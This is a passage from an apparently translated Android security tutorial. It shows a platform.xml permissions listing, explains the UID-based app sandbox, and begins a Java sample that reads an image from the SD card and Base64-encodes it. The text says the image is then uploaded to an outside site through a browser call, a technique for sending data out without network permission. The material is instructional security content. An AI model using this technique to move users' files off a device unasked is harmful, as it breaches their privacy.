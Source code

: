 ```
shell@grouper:/system/etc/permissions $ cat platform.xml
<permissions>

. . .
   <!-- ================================================================== -->

    <!-- The following tags are associating low-level group IDs with
         permission names. By specifying such a mapping, you are saying
         that any application process granted the given permission will
         also be running with the given group ID attached to its process,
         so it can perform any filesystem (read, write, execute) operations
         allowed for that group. -->

    <permission name="android.permission.BLUETOOTH" >
        <group gid="net_bt" />
    </permission>

    <permission name="android.permission.INTERNET" >
        <group gid="inet" />
    </permission>

    <permission name="android.permission.CAMERA" >
        <group gid="camera" />
    </permission>

. . .  [Some of the data has been stripped from here in order to shorten the output and make it readable]
 
</permissions>
```

此外，这清除了对在 Android 设备中运行的本地应用程序的怀疑。 由于本地应用程序直接与处理器交互，而不是在 Dalvik 虚拟机下运行，因此它不会以任何方式影响整体安全模型。

现在，就像我们在前面部分看到的，应用程序将其数据存储在`location/data/data/[package name]`。 现在，存储应用程序数据的所有文件夹也具有相同的用户 ID，这构成 Android 安全模型的基础。 根据 UID 和文件权限，它将限制来自具有不同 UID 的其他应用程序对它的访问和修改。

在下面的代码示例中，`ret`包含以 Base64 格式编码存储在的 SD 卡中的图像，现在正在使用浏览器调用来上传到`attify.com`网站。 目的只是找到一种方式来在两个不同的 Android 对象之间进行通信。

我们将首先创建一个对象来存储图像，在 Base64 中编码，最后将其存储在一个字符串中`imageString`：

```java
final File file = new File("/mnt/sdcard/profile.jpg");
Uri uri = Uri.fromFile(file);
ContentResolver cr = getContentResolver();
Bitmap bMap=null;
try {
    InputStream is = cr.openInputStream(uri);
    bMap = BitmapFactory.decodeStream(is);
    if (is != null) {
        is.close();
    }  
} catch (Exception e) {
    Log.e("Error reading file", e.toString());
}

ByteArrayOutputStream baos = new ByteArrayOutputStream();  
bMap.compress(Bitmap.CompressFormat.JPEG, 100, baos);   
byte[] b = baos.toByteArray();
String imageString = Base64.encodeToString(b,Base64.DEFAULT);
```
